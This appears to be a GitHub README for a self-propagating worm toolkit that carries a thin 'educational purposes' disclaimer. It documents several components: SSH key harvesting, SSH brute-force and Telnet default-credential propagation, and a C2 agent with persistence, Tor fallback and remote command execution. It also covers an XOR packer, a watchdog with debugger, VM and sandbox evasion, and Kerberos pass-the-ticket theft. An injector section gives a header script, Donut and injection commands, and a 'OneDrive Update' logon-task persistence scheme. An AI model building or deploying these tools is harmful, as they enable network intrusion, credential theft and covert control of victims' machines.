

# Self-Propagating Worm

> Collection of scripts and a binary agent for automated reconnaissance scanning, SSH/Telnet propagation, and C2 control.

---

## 🚫 Disclaimer  
This repository is provided for educational purposes only and intended for authorized security research.  
Use of these materials in unauthorized or illegal activities is strictly prohibited.

---

## Description  

This project implements a multi-component self-propagating worm, consisting of:

| Component | Role |
|-----------|------|
| **recon** | Reconnaissance module: gathers SSH credentials, scans the network, launches attack plugins |
| **guid** | Technique plugins for remote access over SSH and Telnet |
| **agent** | Lightweight C2 agent: deploys on victims, enables peer-to-peer propagation & remote command execution |

**P2P Module**
Maintains a dynamic peer list by listening on a designated TCP port, ingesting neighbor-reported node addresses, and seamlessly merging them into a unified set without duplicates. This ensures the agent always has up-to-date peer endpoints for decentralized communication.

**Tor Fallback**
Provides a resilient C2 channel by first attempting a direct HTTPS POST and, on failure or non-200 response, automatically rerouting the same request through the Tor network via a SOCKS5 proxy. This preserves connectivity and anonymity even when the primary server is unreachable.

---

## Quick Usage

Run network reconnaissance: python recon.py

When prompted:
* staging directory default /tmp/ssh_creds
* any additional credentials

The script will automatically:

1. Collect SSH private keys & known_hosts → save as JSON in the staging dir.
2. Discover live hosts in the LAN.
3. For each host, apply the first successful technique from ALL_TECHNIQUES.

---

## Recon Module

| Function                               | Purpose                                                                                                                     |
| -------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| **find_private_keys**              | Locate ~/.ssh/id_ excluding .pub, set 600, return paths                                                            |
| **parse_known_hosts**              | Parse ~/.ssh/known_hosts, ignore comments / hashes, return host list                                                      |
| **copy_to_staging**            | Create /tmp/ssh_creds, copy keys, return new paths                                                                        |
| **prepare_ssh_data**               | Aggregate keys & hosts → write /tmp/ssh_creds/ssh_data.json`<br>Returns:<br>{"keys": [], "known_hosts": []}        |
| **discover_hosts**                 | Find live hosts via:<br>• mDNS/Bonjour → dns-sd -B _ssh._tcp`<br>• ARP + ping sweep                                        |
| **load_creds_db** | Load user, password pairs from JSON;<br>append key-based creds for current user                                         |
| **probe_ports**                  | Test ports 22, 23, 80, 445 with nc -z; return open list                                                               |
| **main**                           | Orchestrates:<br>1 prepare_ssh_data() → 2 load_creds_db() → 3 discover_hosts() → 4 iterate hosts & techniques |

---

## Plugins — guid

All plugins share a Technique interface:

```
def applicable host -> bool
def execute host, creds_db -> bool
```

| Plugin               | What it does                                                                                                       |
| -------------------- | ------------------------------------------------------------------------------------------------------------------ |
| **SSHBruteForce**  | Targets port 22 → tries user/pass combos & SSH keys; on success, uploads & runs the payload/agent via SFTP |
| **TelnetDefaults** | Targets port 23 → attempts default Telnet creds; on success, transfers the agent in Base64 and executes        |

All are aggregated into ALL_TECHNIQUES for use by recon.py.

---

## Agent — agent

| Stage                | Behaviour                                                                                                                                                    |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Bootstrap**        | Copy binary → safe dir macOS ~/Library/Application Support, Linux ~/.local/bin, Win %APPDATA%<br>Remove macOS quarantine<br>Relaunch & exit original |
| **Persistence**      | macOS → LaunchAgent plist<br>Linux → systemd user unit<br>Windows → HKCU\Run key                                                                           |
| **P2P Listener**     | Default TCP 40444 → exchange peer lists savePeers/listPeers                                                                                      |
| **Main C2 Loop**     | Every 90 s:<br>• gather host info + peers<br>• POST to CDN endpoint<br>• execute returned commands in parallel                                           |
| **Command Handling** | self-update → hot-swap binary<br>exfil-keys → collect SSH data<br>scan-subnet → built-in port scanner<br> → run as shell cmd            |
| **Core**             | Go 1.XX, statically linked OS + arch: macOS/Linux/Windows, arm/x86                                                                                         |

---

##  Extensibility

The project is under active development—expect new techniques, transports, and evasions.
Feel free to open issues or pull requests!



---


# Server
The server component receives beacons from Go agents in JSON format, generates unique UUIDs for each, stores and updates host data in a MySQL database, issues pending commands for execution, and marks them as executed. Database connection settings are centralized in a single configuration file, and all operations on the hosts, commands, and executed_commands tables are handled by a wrapper class. A simple web interface allows you to view the list of registered agents and add new commands with an optional OS filter.

---


# Packer
packer_loader.exe is a self-extracting executable with a built in virtual machine.  
It XOR encrypts any binary payload and bundles it with a loader into a single EXE.  
When run the packed EXE, it automatically decrypts the payload and executes it in the VM.

### Features

- Pack any binary into a self extracting EXE.  
- XOR encryption of the payload at pack time and automatic decryption at run time.  
- Built in VM for a simple stack based bytecode PUSH, ADD, SUB, MUL, DIV, PRINT, HALT  
- No external dependencies all code is contained in the EXE.

### Build on Windows / MinGW

1. Place these files in one folder:
   - vm.h, vm.c  
   - packer_loader.c 
   - Makefile  

2. Open an MSYS2/MinGW shell and run:
   make

3. The build produces packer_loader.exe.

### Usage

1. Pack a payload packer_loader.exe pack <input.bin> <output.exe>
   
   * <input.bin>: payload.
   * <output.exe>: name of the self extracting EXE.

2. Run the packed EXE output.exe

   * Read its own file.
   * Locate the 0xDEADBEEF marker.
   * XOR decrypt the embedded payload.
   * Execute the payload in the VM.

### Working

Build:
```
make
```
Pack:
```
packer_loader.exe pack bytecode.bin packed_vm.exe
```
Run:
```
packed_vm.exe
```

### Customization

* Encryption key: edit the key array in packer_loader.c.
* VM opcodes/stack size: modify vm.h/vm.c.
* Add new instructions: extend the enum in vm.h and handling in run_vm.
  
---

# Watchdog & P2P Loader Module /P2P_control

This component provides:

1. **Self-defense** — detects debuggers, virtual machines, and sandbox environments.
2. **Watchdog daemon**:

   * Daemonizes the process, double fork.
   * Monitors the worm process and respawns it if it dies.
   * Verifies the binarys SHA256 hash every 30 seconds; if changed or missing, downloads the latest version from a URL and restarts it.
3. **P2P loader**:

   * Runs in a background thread and every 30 seconds loads c2_config.dll.
   * Reads exported C2Count and C2Addresses symbols.
   * Makes the C2 addresses available for your P2P logic.

---

## Features

* Anti analysis
  is_compromised returns true if a debugger is present, a hypervisor bit is set, or DMI strings indicate a sandbox environment.

* **Watchdog**

  * Daemonizes the process.
  * Spawns and monitors the worm binary.
  * Every 30 seconds checks process health and file integrity.
  * Auto-updates via HTTP/S using libcurl and OpenSSL.

* **P2P loader**

  * Runs in a separate thread.
  * Every 30 seconds reloads c2_config.dll.
  * Reads the exported C2 addresses for decentralized backup channels.

---

## Build & Usage

#### Prerequisites

* MinGW-w64 toolchain x86_64-w64-mingw32-gcc
* Libcurl and OpenSSL

#### Building

```sh
make
```

This produces:

* c2_config.dll
* watchdog.exe

## Running

```
watchdog.exe <agent.exe> <https://c2.server/agent.exe>
```

* Exits immediately if a debugger, VM, or sandbox environment is detected.
* Otherwise:

  * Starts the agent, monitors it, and updates it as needed.
  * Concurrently reloads P2P C2 addresses from the DLL every 30 seconds.

---

## Updating the C2 List

1. Edit dll/c2_config.c, adjust C2Count and the C2Addresses array.
2. Rebuild just the DLL:

   ```
   make c2_config.dll
   ```
3. The running service will pick up the new addresses on its next DLL reload cycle.


---


# Scanner

Console tool that, reads a local SQLite CVE DB. Checks kernel and specified package versions.Prints matching CVEs and local exploits from a CSV.
Version range checks are done in C; keep ranges accurate. CSV parser is simple: no quotes or commas inside fields. Missing packages just produce a notice.
On OOM, entries are skipped safely, no crash.


## Dependencies

* gcc, make
* SQLite3 dev libs libsqlite3-dev/sqlite-devel
* Python 3.7+ to build the DB

## Build

```
cd cve_scanner_c
make           
```

Useful targets:

```
make db        
make exploits   
make clean     
make clean-db  
```

## Options:

* --db PATH        path to the SQLite CVE DB
* --exploits PATH  path to exploits CSV id,cve,description,path
* --kernel         scan kernel version
* --packages LIST  comma separated package names
* -h/--help        help

## Updating the CVE DB

```
./tools/update_nvd_sqlite.py data/nvd.sqlite3 --json-dir data/nvd_json --download
```

## Data

SQLite table cves:

```
id TEXT PRIMARY KEY
summary TEXT
product TEXT            -- linux_kernel or package name
version_start_inc TEXT  -- inclusive bound, NULL if none
version_end_exc  TEXT   -- exclusive bound, NULL if none
```

exploits.csv:

```
id,cve,description,path
50035,CVE-2021-3156,Sudo heap overflow exploit,exploits/linux/local/50035.py
```

---


# PTT‑lib
 
Platform independent shared C library so/dll that extracts and serializes Kerberos tickets from the local cache krb5cc_<uid> for use in SMB/SSH authentication pass‑the‑ticket. Supports reading the default or a custom ccache path. Serializes each ticket into a compact binary format: [4‑byte BE length][ticket data]. Lightweight, with no external dependencies except MIT Kerberos. Suitable for dynamic loading via dlopen / LoadLibrary and invocation from Go/Python/C embeddings  

## Functions
- ptt_init initialize the Kerberos context.  
- ptt_export open the specified or default ccache, iterate all tickets, and serialize them into the buffer. 
- ptt_cleanup free Kerberos context resources.  

## Build
```
mkdir build && cd build
cmake ..
cmake --build .
````

Generates:

* libptt.so on Linux
* ptt.dll on Windows

## Injection using start.py

```
python3 start.py <URL_LIB> <PID>
```

* <URL_LIB> — URL to libptt.so or ptt.dll
* <PID>     — target process ID for injection

The script downloads the library into TEMP, detects the platform, and injects it into the target process on Linux/Windows.

---

## Integration

The main worm binary can invoke start.py to:

1. Dynamically fetch the latest ptt‑lib from the C2 server
2. Inject the library into a victim process
3. Call inside the injected process to collect Kerberos tickets

The ptt_export interface then allows the worm to retrieve and forward tickets over the network for further propagation within the domain.

```
::contentReference[oaicite:0]{index=0}
```

# Injector

This tool solves a pragmatic task: how to turn a DLL into executable shellcode, conveniently deliver it into a target process, and run it through a single script with minimal manual actions. At its core is the native `loader.exe`, which takes shellcode from standard input and then carefully and correctly injects it into the selected process. Additionally, there is the packaging script `packer.ps1`, which generates a self-contained `start.ps1` capable of restoring the required binaries, performing the injection, and configuring auto-start.

## Arch

The chain looks like this:

1. hvnc.bin — shellcode obtained from a DLL, which internally unpacks the DLL and calls the exported Run/StartAgent.
2. loader.exe — a compact native loader in C. It reads shellcode from `stdin`, selects the target process according to a defined strategy, and performs delivery/execution inside it.
3. start.ps1 — a script that unpacks `loader.exe` and `hvnc.bin` from embedded Base64 blocks, starts `loader.exe`, and passes shellcode to it via standard input.

This data flow eliminates the need to store shellcode explicitly on disk (it only exists there at the moment of restoration within `start.ps1`) and simplifies routing the payload into the desired process. The entire cycle “restore → inject → execute” is closed within a single script.

## How loader.exe Works Internally

The work of `loader.exe` is clear and transparent, and this predictability makes debugging easier:

1. **Initialization and preparation.** Reads the entire `stdin` to EOF into a buffer. If needed, attempts to elevate privileges to `SeDebugPrivilege`. Performs light validation of the input blob by size/architecture.
2. **Searching and choosing the target process.** Enumerates processes (`CreateToolhelp32Snapshot/Process32First/Process32Next` or `NtQuerySystemInformation`), filters by name and availability, carefully opens the process with the minimally required rights. If it fails, moves to the next candidate.
3. **Delivering the shellcode.** The sequence “allocate memory → write → switch protection to RX” is implemented via `VirtualAllocEx`/`WriteProcessMemory`/`VirtualProtectEx` (or Nt-analogs). This order minimizes the RWX window.
4. **Execution.** Creates a remote thread via `NtCreateThreadEx` (or `CreateRemoteThread` as a fallback). Alternatives like APC/hijack are possible, but the base scenario is a separate clean thread.
5. **Completion and cleanup.** Optionally waits for the remote thread to finish, closes handles, wipes temporary buffers, logs telemetry (PID, status) if needed.

## Preparing Shellcode from EXE/DLL

The basic path is through Donut.

1. Install/build Donut and convert EXE/DLL into raw shellcode (`raw_shellcode.bin`) — with the correct architecture (`-a 2` for x64, `-a 1` for x86).
2. Add a SCOD header to the raw shellcode using `add_header.py`, so that `injector.exe` accepts the input correctly.
3. Pass the resulting file into the injector — through the standard input pipeline.

Example of the `add_header.py` script (minimal and self-contained):

```python
#!/usr/bin/env python3
import struct, sys
if len(sys.argv) != 4:
    print("Usage: python add_header.py <input_shellcode> <output_file> <arch>")
    print("arch: 1 for x86, 2 for x64"); sys.exit(1)
input_file, output_file, arch = sys.argv[1], sys.argv[2], int(sys.argv[3])
shellcode = open(input_file,'rb').read()
header  = struct.pack('<I', 0x444F4353)  # 'SCOD'
header += struct.pack('<B', arch)        # 1=x86, 2=x64
header += struct.pack('<I', len(shellcode))
header += b'\x00'*3
open(output_file,'wb').write(header + shellcode)
print(f"✓ Created {output_file}")
```

Donut commands and injector usage:

```
donut.exe -f 3 -a 2 program.exe -o raw_shellcode.bin   # x64
donut.exe -f 3 -a 1 program.exe -o raw_shellcode.bin   # x86
python add_header.py raw_shellcode.bin final_shellcode.bin 2  # x64
python add_header.py raw_shellcode.bin final_shellcode.bin 1  # x86
type final_shellcode.bin | injector.exe notepad.exe
Get-Content final_shellcode.bin -AsByteStream | .\injector.exe notepad.exe
```

---

## Packaging and AutoStart via packer.ps1

packer.ps1 assembles a self-contained start.ps1. It takes loader.exe and hvnc.bin as input paths, and outputs a single script that contains both binaries as Base64 arrays.

* Parameters. -LoaderPath, -ShellcodePath, -OutPs1 — strictly checked for existence. Files are read into memory and encoded in Base64.
* To-Chunks. Long Base64 strings are split into blocks of 1000 characters for convenient embedding in the template.
* The `start.ps1` template.

  1. Embeds the $loaderChunks/$shellChunks arrays.
  2. The Reassemble function joins arrays and decodes them into bytes.
  3. Persistence: copies the script itself to `%LOCALAPPDATA%\Microsoft\Win32Components\sync.ps1` and registers a `OneDrive Update` task on logon.
  4. Restores `ldr.exe` from Base64 if it is missing.
  5. Restores shellcode and sends it through `stdin` to `ldr.exe`.
  6. Completion — the main code now runs inside the target process.

Generation and result:

```powershell
.\packer.ps1 -LoaderPath .\loader.exe -ShellcodePath .\hvnc.bin -OutPs1 .\start.ps1
```

The output is `start.ps1`, which sets up auto-start, restores `loader.exe` and the shellcode, passes the shellcode into `loader.exe`, and then exits.

---

## Checklist

* Read shellcode from `stdin` fully.
* Elevate privileges if necessary (`SeDebugPrivilege`).
* Correct enumeration/filtering of processes.
* Open the process with minimally required rights.
* Allocate memory in the target process and write shellcode.
* Switch the page to RX before execution.
* Execute via `NtCreateThreadEx` or fallback `CreateRemoteThread`.
* Wait/check execution status if needed.
* Close handles, cleanup, handle failures, and move to the next candidate.
* Optional — masking and artifact cleanup.

## Quick Start

A short summary if you are already familiar with the tools:

1. Donut → `raw_shellcode.bin` for the required architecture.
2. Optionally add a SCOD header and use `injector.exe`, **or** directly feed shellcode to `loader.exe` via `stdin`.
3. To automate deployment and auto-start — run `packer.ps1` and get `start.ps1`, which does the rest automatically.


